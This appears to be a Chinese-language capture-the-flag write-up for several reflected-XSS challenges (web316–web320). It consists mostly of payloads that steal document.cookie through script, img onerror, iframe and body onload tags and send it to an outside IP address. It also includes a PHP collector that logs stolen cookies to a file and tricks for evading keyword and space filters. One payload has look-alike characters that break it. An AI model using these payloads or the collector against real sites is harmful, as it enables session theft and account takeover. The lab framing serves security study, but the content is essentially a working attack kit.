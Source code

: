 ## web316

反射的xss。

```
<script>alert("1")</script>
<script>location.href="http://47.96.41.103/test.php?cookie="+document.cookie</script>
```

网站上面的记录token的代码

```php
<?php
	$cookie = $_GET['cookie'];
	$time = date('Y-m-d h:i:s', time());
	$log = fopen("cookie.txt", "a");
	fwrite($log,$time.':    '. $cookie . "\n");
	fclose($log);
?>
```

## web317

过滤了script

```
<img src="" onerror=alert("1")>

 <img src="" οnerrοr=location.href=""http://47.96.41.103/test.php?cookie="+document.cookie>

```



## web318

```
<iframe/onload=document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie;></iframe>
<body onload="document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie"></body>
```



## web320

过滤了script，img，空格

空格可以用`%09`、`tab`、`/`、`/**/`代替。

```
<body/onload=alert("xss");>

<body/**/onload="document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie"></body>
<body/onload=document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie;>
<iframe/onload=document.location.href='http://47.96.41.103/test.php?cookie='+document.cookie;></iframe>
```
